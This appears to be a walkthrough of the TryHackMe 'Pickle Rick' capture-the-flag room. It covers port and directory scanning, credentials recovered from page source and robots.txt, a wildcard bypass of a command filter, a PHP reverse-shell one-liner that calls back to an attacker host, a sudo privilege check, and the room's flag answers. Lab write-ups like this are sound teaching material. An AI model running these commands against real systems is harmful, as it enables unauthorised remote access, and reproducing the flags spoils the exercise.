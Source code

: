 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Website

* In source code there is this comment:
"
    Note to self, remember username!

    Username: R1ckRul3s
  "

* run nmap command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
Results:
* 22/tcp open  ssh    OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
* 80/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))

* in /robots.txt find string *Wubbalubbadubdub*

* connecting to port 22 (ssh) using username R1ckRul3s and passwrod Wubbalubbadubdub doesn't work (error: R1ckRul3s@10.10.38.165: Permission denied (publickey).)

* tried to find hidden files/strings in images in assets/ directory: nothing found

* run
```
nikto -h 10.10.38.165
```

* meglio gobuster con php extension:
```
gobuster -w /usr/share/wordlists/directory-list-2.3-small.txt -u http://10.10.38.165/ -t 20 -x php
```

result:

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.38.165/
[+] Threads      : 20
[+] Wordlist     : /usr/share/wordlists/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2023/05/01 12:51:37 Starting gobuster
=====================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)


* go to *login.php* and use credetials R1ckRul3s:Wubbalubbadubdub

![img3](/images/pickle_rick-thm/img3.png?raw=true)

## First ingredient

* run ```ls``` command in command panel and get these results:
**Sup3rS3cretPickl3Ingred.txt**
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

* we need to cat Sup3rS3cretPickl3Ingred.txt file but a filter is placed

![img4](/images/pickle_rick-thm/img4.png?raw=true)


* bypass it using the following command

![img5](/images/pickle_rick-thm/img5.png?raw=true):

```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```
first flag found: mr. meeseek hair

## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php

![img6](/images/pickle_rick-thm/img6.png?raw=true):

```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data

* then:

![img7](/images/pickle_rick-thm/img7.png?raw=true)

3rd ingredient: fleeb juice
